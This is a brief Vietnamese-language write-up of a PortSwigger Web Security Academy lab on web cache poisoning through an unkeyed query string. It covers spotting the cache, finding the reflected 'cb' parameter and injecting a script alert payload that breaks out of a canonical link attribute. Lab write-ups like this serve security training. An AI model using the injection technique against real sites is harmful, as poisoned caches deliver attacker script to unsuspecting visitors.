



# Lab: Web cache poisoning via an unkeyed query string

## Phát hiện

- Khi gửi yêu cầu tới trang chủ, quan sát thấy server sử dụng cache.
  

- Cachebuster (tham số `cb`) được phản chiếu trong phản hồi:
  

## Khai thác

- Ví dụ phần liên quan trong HTML:

```
<link rel="canonical" href='//0aaf001504635d698053c6cf004800f2.web-security-academy.net/?cb=23wefvbhgjrtfbsw'/>
<title>
```

- Thay đổi giá trị `cb` để chèn payload XSS, ví dụ:

```
/?cb=23wefvbhgjrtfbsw'/><script>alert(1)</script>
```



## Kết luận

- Tham số query string không được khóa có thể dùng để chèn nội dung vào trang được cache, dẫn tới XSS cho các nạn nhân truy cập nội dung cache.
